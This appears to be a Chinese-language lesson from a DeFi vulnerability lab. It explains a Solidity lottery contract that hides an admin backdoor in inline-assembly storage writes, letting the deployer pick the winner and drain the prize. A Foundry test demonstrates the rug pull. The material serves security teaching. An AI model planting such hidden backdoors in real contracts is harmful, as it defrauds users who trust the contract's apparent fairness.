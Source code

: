 # 合约中隐藏的后门  
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)  
**名称：** 合约中隐藏的后门漏洞  
**描述：**   
在这份合同中，一个看似公平的“LotteryGame”合同被巧妙地设计为允许
合同部署人员/管理员有隐藏特权。  
这是通过使用汇编级访问存储变量来实现的，其中referee函数提供管理后门。  
“pickWinner”功能似乎是随机选择一个获胜者，但实际上，它允许管理员设置获胜者。  
这绕过了通常的访问控制，并可用于被未经授权的用户取走奖池中的所有资金，是rug pull的一种类型。  
攻击者可以通过编写内联汇编来操纵智能合约留下后门。  
任何敏感参数都可以随时更改。  


**场景：**  
抽奖游戏：只要运气好，任何人都可以调用pickWinner来中奖。
留有JST合约后门。许多rugged的合约都有类似的特征。
看起来合约中没有setWinner函数，管理员如何rug呢？  

**LotteryGame合约：**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            //加载在插槽2上的存储的管理值 
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // 管理员后门，可以设置获胜者地址
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv
```
// 定义一个名为 testBackdoorCall 的公共函数
function testBackdoorCall() public {
    // 声明两个地址，alice和bob，并将它们的值设置为分别从vm.addr(1)和vm.addr(2)的地址。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // 部署LotteryGame合约的新实例，并将引用存储在 LotteryGameContract变量中。
    LotteryGameContract = new LotteryGame();

    // 打印一条消息，指示 Alice 将调用 pickWinner 函数，但她实际上不会是获胜者。
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // Call the prank function of vm with Alice's address as an argument, implying some manipulation may occur.
    vm.prank(alice);

    // 调用LotteryGameContract的pickWinner函数，将Alice 的地址作为参数传递。
    LotteryGameContract.pickWinner(address(alice));

    // 在pickWinner函数调用后打印当前奖金。
    console.log("Prize: ", LotteryGameContract.prize());

    // 打印一条消息，表明管理员将设置获胜者以取光奖金。
    console.log("Now, admin sets the winner to drain out the prize.");

    // 再次调用LotteryGameContract的pickWinner函数，但这次传递Bob的地址作为参数。
    LotteryGameContract.pickWinner(address(bob));

    // 打印由管理员操作的获胜者的地址。
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```  
**红框：** 恶意设置的赢家可以中奖。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc89ca10c-c526-479d-83f5-a7f798142b42%2FUntitled.png?table=block&id=65b900de-4ff0-4ffa-8685-071dd4112db5&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)